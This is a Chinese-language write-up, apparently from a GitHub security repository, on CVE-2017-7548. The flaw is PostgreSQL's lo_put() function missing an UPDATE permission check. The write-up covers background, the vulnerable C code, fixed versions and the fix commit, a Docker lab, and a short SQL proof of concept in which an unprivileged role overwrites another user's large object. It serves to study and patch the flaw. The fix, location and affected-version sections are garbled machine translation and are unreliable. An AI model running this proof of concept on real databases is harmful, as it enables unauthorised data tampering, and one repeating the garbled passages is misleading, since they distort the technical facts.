


# CVE-2017-7548 CWE-862 PostgreSQL 访问控制绕过

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **大型对象（Large Object，简称 LO、大象）：**在 PostgreSQL 中是一种用于存储大容量数据的特殊数据类型，通常用于存储图片、音频、视频、文档等二进制大数据。大型对象存储在一个专门的表中，并通过 OID（对象标识符）进行引用。与普通的数据库表字段不同，大型对象支持按块进行读取和写入，这使得处理大文件更加高效。PostgreSQL 提供了一些函数，如 `lo_create()`、`lo_put()` 和 `lo_get()` 等，用于创建、存储和读取大型对象。然而，操作大型对象时需要特别注意权限控制，以确保只有授权用户才能访问和修改这些数据。
- **CWE-862  “缺乏权限验证”（Missing Authorization）：**该漏洞发生在系统中缺少适当的权限检查或验证机制，导致未经授权的用户可以执行原本应该限制的操作。攻击者可能利用此漏洞访问敏感资源、执行未授权的操作，或进行恶意行为。在许多情况下，CWE-862 可能发生在应用程序没有充分验证用户权限，尤其是在重要操作如修改数据、访问个人信息或控制系统行为时。为了防止这种类型的漏洞，开发人员应确保在每个敏感操作之前都进行严格的权限验证，确保用户只能访问其授权范围内的资源。

## 漏洞原理

PostgreSQL 中的 `lo_put()` 函数未能正确检查用户的权限，允许没有 UPDATE 权限的用户仍然能够覆盖大型对象（Large Object）的内容。具体来说，攻击者可以绕过原本应限制其对大型对象写入的权限控制，从而覆盖已经存储的内容，可能导致数据丢失、服务中断或其他问题。

## 漏洞定位


漏洞位于 SQL 函数 `be_lo_put()`，文件为 `src/backend/libpq/be-fsstubs.c`。受影响版本以 `INV_WRITE` 模式打开大对象后直接定位并写入；与其他大对象写入接口不同，该路径没有调用 `pg_largeobject_aclcheck_snapshot(..., ACL_UPDATE, ...)` 检查当前用户的 UPDATE 权限。

```c
CreateFSContext();

loDesc = inv_open(loOid, INV_WRITE, fscxt);
/* Missing ACL_UPDATE check in vulnerable versions. */
inv_seek(loDesc, offset, SEEK_SET);
written = inv_write(loDesc, VARDATA_ANY(str), VARSIZE_ANY_EXHDR(str));
```

由于权限检查完全不存在， 只要用户可以拨打 `lo_put()` 并且知道大对象OID,对象的内容可以覆盖。 固定添加 `pg_largeobject_aclcheck_snapshot()` 介于 `inv_open()` 和 `inv_seek()` 返回时 `ERRCODE_INSUFFICIENT_PRIVILEGE` 如果失败的话。

## 漏洞修复


升级到 PostgreSQL  9.4.13， 9.5.8， 9.6.4,或后来。 提交 `8d9881911f0d30e0783a6bb1363b94a2c817433d` 添加 `pg_largeobject_aclcheck_snapshot(..., ACL_UPDATE, ...)` 改为 `be_lo_put()` 在查找或写入之前,当调用者在大型对象上缺乏 UPDATE 权限时,返回一个不足的偏差错误。

在升级之前,取消 `EXECUTE` 打开 `lo_put(oid, bigint, bytea)` 从不可信的角色,只通过可实现明确所有权的受控安全DEFINER包装器暴露大型物体修改ACL 检查。 对现有大型物体进行审计,以便进行未经授权的修改。

## 影响范围


** 受影响的版本:** PostgreSQL：

- 9.4 改为 9.4.12
- 9.5 改为 9.5.7
- 9.6 改为 9.6.3

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 9.5.0，管理员为 postgres，密码为 postgres，已存在数据库 test，存在 PoC 代码 CVE-2017-7548-PoC.sql

```txt
NIST: NVD    Base Score:7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:9.5.0:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test ，并运行 PoC 代码。在 Step 7 可以看到 u1 覆盖大型对象的内容，代表`lo_put()` 函数未进行适当的权限检查，允许任何用户覆盖大型对象的内容。

```bash
docker exec -it postgres-9.5.0 psql -U postgres -d test -f CVE-2017-7548-PoC.sql
```




## PoC分析

```sql
-- 用超级用户创建一个大对象并写入初始内容
SELECT lo_create(1234);
SELECT lo_put(1234, 0, 'ORIGINAL');
-- 把对象的所有权给超级用户，确保 u1 没有任何权限
REVOKE ALL ON LARGE OBJECT 1234 FROM PUBLIC;

-- 切换到普通用户，尝试修改大象
CREATE ROLE u1;
SET ROLE u1;
SELECT lo_put(1234, 0, 'OVERRIDE');
```

`lo_put()` 函数未进行适当的权限检查，允许任何用户覆盖大型对象的内容，即使他们没有 UPDATE 权限。

## 参考链接


[NVD - CVE-2017-7548](https://nvd.nist.gov/vuln/detail/CVE-2017-7548#range-14672155)

[Require update permission for the large object written by lo_put(). · postgres/postgres@8d98819](https://github.com/postgres/postgres/commit/8d9881911f0d30e0783a6bb1363b94a2c817433d#diff-ae6ff6425397b5689abb6939082b2ef11d0dc421827ad9db0196e480e2b86264)
